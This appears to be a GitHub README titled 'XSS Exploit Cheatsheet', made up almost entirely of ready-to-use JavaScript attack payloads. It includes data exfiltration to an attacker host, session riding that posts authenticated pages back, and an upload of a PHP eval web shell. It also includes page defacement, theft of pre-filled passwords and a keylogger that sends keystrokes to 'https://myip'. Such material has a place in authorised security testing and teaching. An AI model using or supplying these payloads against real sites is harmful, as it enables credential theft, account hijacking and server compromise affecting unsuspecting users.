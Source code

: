 # XSS Exploit Cheatsheet

=====

## Send something back or CSRF

GET

```javascript
var uri = "http://<myip>/";
var query = "?message=" + encodeURIComponent("<some-data>");
xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
	if (xhr.readyState == XMLHttpRequest.DONE) {
		// do something after sent
	}
}
xhr.open("GET", uri + query, true);
xhr.send();
```

POST (application/json)

```javascript
var req = new XMLHttpRequest();
req.open("POST", "http://<target>", true); 
req.setRequestHeader("Content-type", "application/json");
req.send(JSON.stringify({
    data: "data"
}));
```

POST (multipart-formdata)

```javascript
var code = "<? eval($_REQUEST[0]);";
var ctype = "text/plain";
var fname = "g.php";
var form = new FormData();
form.append("newAttachment", new Blob([code],  { type: ctype }), fname);

var uri = "http://<target>/";
xhr = new XMLHttpRequest();
xhr.open("POST", uri, true);
xhr.send(form);
```

## Session Riding

```javascript
var href = "http://<target>/somepage";
fetch(href, {
    "credentials": 'include',
    "method": "get",
})
.then((response) => {
    return response.text();
})
.then( text => {
	// post something back
	fetch("http://<myip>/record", {
		method: "POST",
		headers: {
            "content-Type": "application/json"
        },
        body: JSON.stringify({
            url: href,
            content: text
        })
	})
})
```

## Defacement

```javascript
html_element = document.getElementsByTagName('html')[0];
html_element.innerHTML = '<!DOCTYPE html><html lang="en"> ... </html>';
```

## Fetch auth pages

Based on `<iframe>`, we can delay N seconds and grab all `<a>` to fetch pages. See [fetchAuth.js](utils/fetchAuth.js).

## Capture pre-filled password

```javascript
var source = 'https://myip'
Array.from(document.forms).forEach( form => {
    Array.from(form.elements).forEach(elem => {
        if(elem.type === "password") {
            fetch(source + "/prefill", {
                method: "POST",
                headers: {
                    "content-Type": "application/json"
                },
                body: JSON.stringify({
                    name: elem.name,
                    value: elem.value
                })
            });
        }
    });
});
```

## KeyLogger

```javascript
var source = 'https://myip';
var recordObj = {};
document.onkeypress = function (e) {
    var current = document.activeElement;
    recordObj[current.name] = recordObj[current.name] || "";
    recordObj[current.name] += e.key;

    
    var req = new XMLHttpRequest();
    req.open("POST",source + "/keylog", true); 				// ADD URL HERE!
    req.setRequestHeader("Content-type", "application/json");
    req.send(JSON.stringify({
        data: recordObj[current.name],
        tagname: current.name,
        tagval: current.value
    }));
    
}
```

## API Server on Attacker side

use `Flask-Cors` to serve resource. See [apiServ.py](utils/apiServ.py)


